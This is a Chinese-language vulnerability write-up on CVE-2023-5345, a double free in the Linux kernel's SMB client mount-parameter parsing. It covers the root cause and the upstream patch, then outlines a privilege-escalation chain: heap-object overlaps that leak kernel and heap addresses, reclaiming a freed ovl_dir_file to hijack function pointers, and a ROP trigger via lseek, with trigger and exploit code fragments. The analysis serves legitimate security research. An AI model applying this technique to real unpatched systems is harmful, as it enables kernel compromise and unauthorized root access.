





# CVE-2023-5345 Linux 内核 SMBFS 模块 UAF 漏洞分析与利用 - 先知社区

CVE-2023-5345 Linux 内核 SMBFS 模块 UAF 漏洞分析与利用

- - -

‍

## 漏洞分析

smbfs 文件系统暴露了 smb3\_fs\_context\_parse\_param 接口，用户态可通过 SYS\_fsconfig 系统调用触发该接口

```plain
syscall(SYS_fsconfig, fsfd, FSCONFIG_SET_STRING, "max_credits", "19", 0);
```

漏洞根因是 smb3\_fs\_context\_parse\_param 在解析出错时会进入 cifs\_parse\_mount\_err 通过 kfree\_sensitive 释放 ctx->password，但是没有将指针置空，会导致 Double Free 的问题。

```plain
static int smb3_fs_context_parse_param(struct fs_context *fc,
                      struct fs_parameter *param)
{

    case Opt_max_credits:
        if (result.uint_32 < 20 || result.uint_32 > 60000) {
            cifs_errorf(fc, "%s: Invalid max_credits value\n",
                 __func__);
            goto cifs_parse_mount_err;  // 入参不符合规范
        }
        ctx->max_credits = result.uint_32;
        break;

 cifs_parse_mount_err:
    kfree_sensitive(ctx->password);
    return -EINVAL;
}
```

分配 ctx->password 的代码如下

```plain
case Opt_pass:
        kfree_sensitive(ctx->password);
        ctx->password = NULL;
        if (strlen(param->string) == 0)
            break;

        ctx->password = kstrdup(param->string, GFP_KERNEL);
        if (ctx->password == NULL) {
            cifs_errorf(fc, "OOM when copying password string\n");
            goto cifs_parse_mount_err;
        }
        break;
```

用户态对应触发代码

```plain
syscall(SYS_fsconfig, fsfd, FSCONFIG_SET_STRING, "password", password, 0)
```

漏洞触发步骤：

1.  首先通过 Opt\_pass 分配 ctx->password
2.  fsconfig 执行 Opt\_max\_credits 分支并传入错误的参数，会导致 ctx->password 被释放但是指针没有被置空
3.  关闭文件系统对应 fd 导致 ctx->password 再次被释放

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240123151757655-2124555345.png)​

补丁分析（[https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=e6e43b8aa7cd3c3af686caf0c2e11819a886d705）](https://git.kernel.org/pub/scm/linux/kernel/git/torvalds/linux.git/commit/?id=e6e43b8aa7cd3c3af686caf0c2e11819a886d705%EF%BC%89)

```plain
diff --git a/fs/smb/client/fs_context.c b/fs/smb/client/fs_context.c
index e45ce31bbda717..a3493da12ad1e6 100644
--- a/fs/smb/client/fs_context.c
+++ b/fs/smb/client/fs_context.c
@@ -1541,6 +1541,7 @@ static int smb3_fs_context_parse_param(struct fs_context *fc,

  cifs_parse_mount_err:
    kfree_sensitive(ctx->password);
+   ctx->password = NULL;
    return -EINVAL;
 }
```

释放 password 后将指针置空

‍

## 漏洞利用

首先通过构造 user\_key\_payload 和 shm\_file\_data 结构体的重叠泄露 vm\_ops 获取内核基地址

```plain
struct shm_file_data {
    int id;
    struct ipc_namespace *ns;
    struct file *file;
    const struct vm_operations_struct *vm_ops;
};
```

具体步骤如下：

1.  在 kmalloc-32 里面分配 ctx->password
2.  触发漏洞释放 ctx->password
3.  分配 user\_key\_payload 占位刚刚释放 ctx->password
4.  再次释放 ctx->password 导致 user\_key\_payload 被释放
5.  大量分配 shm\_file\_data 占位刚刚释放 user\_key\_payload
6.  此时 user\_key\_payload 和 shm\_file\_data 重叠，通过 user\_key\_payload 读出 shm\_file\_data 的内容完成地址泄露

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240123151758789-1467517460.png)​

然后通过 simple\_xattr 和 user\_key\_payload 泄露堆地址用于布置 rop gadget 和伪造对象

```plain
struct simple_xattr {
    struct list_head list;
    char *name;
    size_t size;
    char value[];
};
```

simple\_xattr 有以下特点比较适合做堆地址泄露：

-   value 部分的数据由用户态控制，可以灵活选择 xattr 的 大小
-   通过一个文件的多个 xattr 通过 list 双向链表管理，通过泄露 list 就可以找到存放用户数据的堆地址

具体的堆地址泄露流程如下：

1.  利用漏洞让 simple\_xattr (VX) 和 user\_key\_payload 在 kmalloc-96 上重叠
2.  然后再次通过 simple\_xattr\_set 给 VX 对应的文件增加一个 8192 大小的 xattr，新分配的 xattr 会插入到 VX 的 list->prev
3.  利用 user\_key\_payload 读取 VX->list.prev 就能泄露 kmalloc-8192 中的地址（simple\_xattr\_kmalloc\_8192\_addr），里面存放用户态的数据。

新增 xattr 时操作 xattr->list 的相关代码如下：

```plain
int simple_xattr_set(struct simple_xattrs *xattrs, const char *name,
             const void *value, size_t size, int flags,
             ssize_t *removed_size)
{
    ................
    list_add(&new_xattr->list, &xattrs->head);
    xattr = NULL;
    ................
}
```

新增 xattr 前后链表结构如下：

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240123151759619-1250754624.png)​

利用上述步骤获取两个 kmalloc-8192 的地址分别用于存放伪造的 ops 结构体、file 结构体和 rop gadget，目的是利用 Double Free 占位 ovl\_dir\_file 实现控制流劫持

```plain
static int ovl_dir_open(struct inode *inode, struct file *file)
{
    struct path realpath;
    struct file *realfile;
    struct ovl_dir_file *od;
    enum ovl_path_type type;

    od = kzalloc(sizeof(struct ovl_dir_file), GFP_KERNEL); // allocation happened here.
    if (!od)
        return -ENOMEM;

    type = ovl_path_real(file->f_path.dentry, &realpath);
    realfile = ovl_dir_open_realfile(file, &realpath);
    if (IS_ERR(realfile)) {
        kfree(od);
        return PTR_ERR(realfile);
    }
    od->realfile = realfile;
    od->is_real = ovl_dir_is_real(file->f_path.dentry);
    od->is_upper = OVL_TYPE_UPPER(type);
    file->private_data = od;

    return 0;
}
```

具体思路：

1.  利用 Double Free 实现 ovl\_dir\_file 结构体的 UAF
2.  然后 利用 ramfs\_parse\_param 占位 ovl\_dir\_file，并控制其 od->realfile 指向上一步泄露的堆地址中
3.  在伪造的 realfile 中让其 f\_op 指向另一个泄露的堆地址，从而控制函数指针
4.  触发 vfs\_llseek(od->realfile, offset, origin) 实现控制流劫持

‍

转换为 ovl\_dir\_file UAF 的示意图如下：

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240123151800409-1052291946.png)​

> PS: 利用 Double Free 将占位的 ovl\_dir\_file 释放

使用 ramfs\_parse\_param 占位 ovl\_dir\_file 的相关代码如下：

```plain
SYSCALL_DEFINE5(fsconfig,
        int, fd,
        unsigned int, cmd,
        const char __user *, _key,
        const void __user *, _value,
        int, aux)
{
  ...
    struct fs_parameter param = {
        .type   = fs_value_is_undefined,
    };
  ...

  switch (cmd) {
  ...
    case FSCONFIG_SET_STRING:
        param.type = fs_value_is_string;
        param.string = strndup_user(_value, 256); // string buffer allocation happened here.
        if (IS_ERR(param.string)) {
            ret = PTR_ERR(param.string);
            goto out_key;
        }
        param.size = strlen(param.string);
        break;
  ...
  }
```

利用 FSCONFIG\_SET\_STRING 的 value 可以控制分配的数据和大小，对应到用户态代码如下：

```plain
struct ovl_dir_file *od = (struct ovl_dir_file*)overwrite_buf;
  od->realfile = fake_file_addr;
  overwrite_buf[sizeof(struct ovl_dir_file)] = 0;

  for (int i = 0; i < 2; i++)
    syscall(SYS_fsconfig, overwrite_ovl_dir_file_fsfds[i], FSCONFIG_SET_STRING, "source", overwrite_buf, 0);  // 多次分配确保占位刚刚释放的 ovl_dir_file
```

被劫持后的 ovl\_dir\_file 示意图如下：

​[](https://img2023.cnblogs.com/blog/1454902/202401/1454902-20240123151801276-1948959149.png)​

> 在 kmalloc-8192 #1 和 kmalloc-8192 #2 分别伪造 file 结构体和 f\_op

‍

然后用户态对 ovl\_dir\_file 的 fd 调用 lseek 系统调用就会执行 rop.

```plain
lseek(trigger_code_execution_fd, rop_stack, SEEK_CUR);
```

‍

## 总结

-   利用 simple\_xattr 结构中的双向链表指针泄露堆地址的思路值得借鉴，以往的漏洞利用中也有一些利用链表泄露堆地址的思路，比如：msg\_msg、nft\_set 等。
-   user\_key\_payload 用来泄露数据也比较常见，在 netlink 子系统里面还有 nft\_object、nft\_table 等结构也能达到类似的效果。

‍

‍

## 参考资料

-   [https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-5345\_lts\_mitigation/docs/vulnerability.md](https://github.com/google/security-research/blob/master/pocs/linux/kernelctf/CVE-2023-5345_lts_mitigation/docs/vulnerability.md)

‍
